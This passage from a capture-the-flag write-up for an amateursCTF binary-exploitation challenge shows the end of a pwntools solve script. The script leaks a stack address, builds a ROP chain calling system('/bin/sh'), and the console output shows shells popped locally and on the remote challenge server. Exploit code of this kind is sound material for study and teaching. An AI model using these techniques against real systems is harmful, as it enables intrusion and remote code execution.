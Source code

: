 ```python
    create(0, 0x20, b'', 0x20, b'')

    data = read(0)
    data = data.split(b'val = \\x00\\x00\\x00\\x00\\x00\\x00\\x00\\x00\\x00\\x00\\x00\\x00\\x00\\x00\\x00\\x00')[1].split(b'\\x00')[0].decode()
    stack_leak = custom_u64(data)
    log.info('stack leak @ %s' % hex(stack_leak))
    saved_return_pointer = stack_leak - 0x120 - 0x8
    update(1, p64( obfuscate(saved_return_pointer) ))
    rop = ROP(libc)
    rop.raw( 0 ) # Fill previous 8 bytes with junk data
    rop.raw( rop.find_gadget(['ret']).address ) # Fix stack alignment
    rop.system(next(libc.search(b'/bin/sh\x00')))
    print(rop.dump())
    payload = rop.chain()
    create(1, 0x30, b'fake', 0x30, payload)

    # Trigger the ROP chain by departing from main()
    depart()

    log.success('Popping a shell...')
    r.interactive()


if __name__ == "__main__":
    main()
```

```console
$ python solve.py LOCAL
[5] => depart
>>>
[+] Popping a shell...
[*] Switching to interactive mode
$ whoami
vulnx
$
```

Great, let's run it against remote and get the flag

```console
python solve.py
[+] Opening connection to chal.amt.rs on port 1346: Done
...
[5] => depart
>>>
[+] Popping a shell...
[*] Switching to interactive mode
$ ls
flag.txt
lib
run
$ pwd
/app
$ cat flag.txt
amateursCTF{did_you_have_fun?}
```

Definitely had a lot of fun while solving this challenge!

### Flag

`amateursCTF{did_you_have_fun?}`